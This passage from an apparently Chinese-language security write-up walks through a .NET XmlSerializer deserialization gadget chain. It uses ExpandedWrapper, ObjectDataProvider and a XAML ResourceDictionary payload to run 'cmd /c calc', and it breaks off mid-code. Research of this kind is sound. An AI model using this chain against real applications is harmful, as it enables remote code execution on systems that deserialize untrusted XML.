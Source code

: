 ```csharp
using System.Xml.Serialization;
namespace XmlDeserialize
{
    public class XmlDeserialize
    {
        public static void Main(string[] args)
        {
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            ExpandedWrapper<Process, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<Process, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.MethodName = "Start";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Process();
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<Process, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);

            memoryStream.Position = 0;
            xml.Deserialize(memoryStream);
        }
    }
}
```
仍然会抛错
![image.png](https://cdn.nlark.com/yuque/0/2024/png/32634994/1707150116917-851aa0bc-fe8f-4c5d-ae87-a7bd327f2930.png#averageHue=%23acc6c2&clientId=ubec19cfa-997f-4&from=paste&height=119&id=ud8e54bc4&originHeight=149&originWidth=1857&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36883&status=done&style=none&taskId=u3cd825d7-72a5-42d7-b143-d96cd02ff16&title=&width=1485.6)
这是因为Process有个成员变量是接口不能进行xml序列化，因此我们的sink点得改变一下。不能直接是Process，这里就需要和上面第二点说到的ResourceDictionary结合一下了。
最终payload如下
```csharp
using System;
using System.Collections.Specialized;
using System.Data.Services.Internal;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Text;
using System.Windows;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;
namespace XmlDeserialize
{
    public class XmlDeserialize
    {
        public static void Main(string[] args)
        {
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            var payload = "<ResourceDictionary \n                    xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" \n                    xmlns:d=\"http://schemas.microsoft.com/winfx/2006/xaml\" \n                    xmlns:b=\"clr-namespace:System;assembly=mscorlib\" \n                    xmlns:c=\"clr-namespace:System.Diagnostics;assembly=system\">\n    <ObjectDataProvider d:Key=\"\" ObjectType=\"{d:Type c:Process}\" MethodName=\"Start\">\n        <ObjectDataProvider.MethodParameters>\n            <b:String>cmd</b:String>\n            <b:String>/c calc</b:String>\n        </ObjectDataProvider.MethodParameters>\n    </ObjectDataProvider>\n</ResourceDictionary>";
            ExpandedWrapper<XamlReader, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.MethodName = "Parse";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add(payload);
```